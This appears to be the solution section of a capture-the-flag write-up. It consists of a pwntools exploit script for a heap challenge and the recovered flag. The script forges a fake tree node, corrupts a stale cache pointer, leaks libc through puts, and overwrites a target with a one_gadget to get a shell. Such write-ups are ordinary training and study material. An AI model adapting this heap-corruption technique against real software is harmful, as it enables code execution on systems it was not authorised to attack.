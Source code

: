 ```python
normal = create(0x28)
fake_root = p64(0)
fake_root += p64(0)
fake_root += p64(0xdeadbeef) # Fake key
fake_root += p64(0xffffff) # Fake size
fake_root += p64(target) # Fake chunk_ptr
write(normal, 0, fake_root)


# Create faulty node with huge size field
bigboy = create(0xffffffff)
write(bigboy, 0, b'ABCDEFG!!!')

# Zero chunk_ptr in stale cache entry
delete(bigboy)

# Write over root to point to fake_root
write(bigboy, 0x4040e8, p8(0xb0))

# Use fake node to write to target
write(str(0xdeadbeef).encode(), 0, chain)
puts = u64(p.recvline()[:-1].ljust(8, b'\x00'))
libc.address = puts - libc.sym.puts

# Finally use libc leak to rop to one_gadget
magic = libc.address + one_gadget
write(str(0xdeadbeef).encode(), 0, p64(magic))
p.interactive()
```

## Flag
`QnQSec{4_s3gf4ult_15_b3773r_th4n_UB}`